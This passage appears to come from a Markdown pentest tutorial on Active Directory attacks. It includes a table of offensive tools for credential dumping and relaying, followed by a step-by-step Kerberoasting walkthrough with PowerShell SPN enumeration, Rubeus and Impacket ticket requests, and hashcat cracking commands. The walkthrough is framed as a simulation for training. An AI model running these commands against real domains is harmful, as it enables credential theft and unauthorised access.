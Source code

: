 
## 🛠️ 2. Tools You’ll Need

| Tool | Use Case |
| --- | --- |
| BloodHound | Mapping attack paths |
| Mimikatz | Dumping credentials |
| Rubeus | Kerberoasting & ticket operations |
| CrackMapExec | Lateral movement, pass-the-hash |
| Responder | NTLM relays via rogue services |
| PowerView | Recon, enumeration, privilege abuse |
| Impacket | TGS abuse, SMB relays, DCSync, etc. |

---

## 🎯 3. Attack Simulation: Kerberoasting

### 🧠 Objective:

Extract service tickets for SPNs and crack their hashes offline to get plaintext credentials.

---

### 📍 Step-by-Step (From Attacker Box / Domain-joined low-priv user):

**Step 1: Get SPNs of service accounts**

```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName |
Select-Object Name, SamAccountName, ServicePrincipalName

```

**Step 2: Use Rubeus or Impacket to request tickets**

```powershell
Rubeus kerberoast

```

Or with Impacket:

```bash
GetUserSPNs.py -dc-ip 192.168.142.150 activedirectory.local/john:Password123

```

**Step 3: Crack the hashes offline**

```bash
hashcat -m 13100 kerberoast_hashes.txt rockyou.txt

```
